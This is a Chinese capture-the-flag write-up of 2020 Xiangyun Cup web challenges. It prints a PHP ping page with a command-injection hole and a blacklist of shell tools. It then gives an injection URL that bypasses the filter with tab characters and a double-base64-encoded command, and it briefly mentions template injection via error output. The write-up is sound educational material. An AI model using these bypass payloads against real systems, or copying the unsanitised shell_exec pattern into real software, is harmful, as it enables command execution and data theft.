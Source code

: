 date: 2020-11-24
categories:
- 比赛
tags:
- wp
- web
- ctf
title: 2020祥云杯web题解
---
# 祥云杯web题解

## Command

题目源码

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|]|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\*|\{)/i", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no no no!')
      window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no flag!')
      window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
```



测试发现过滤了:`',$,&,*,;,>,],{, ,`
利用%09来绕过对空格的过滤

```
http://eci-2ze5a6nc0glncs99tzta.cloudeci1.ichunqiu.com/?url=-h|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```





## flaskbot

测试一波发现输入点都没有ssti,并且开着报错

我们利用报错来拿源码

最关键的源码`render_template_string(guessNum(num,name))` 是直接访问不存在界面得到的
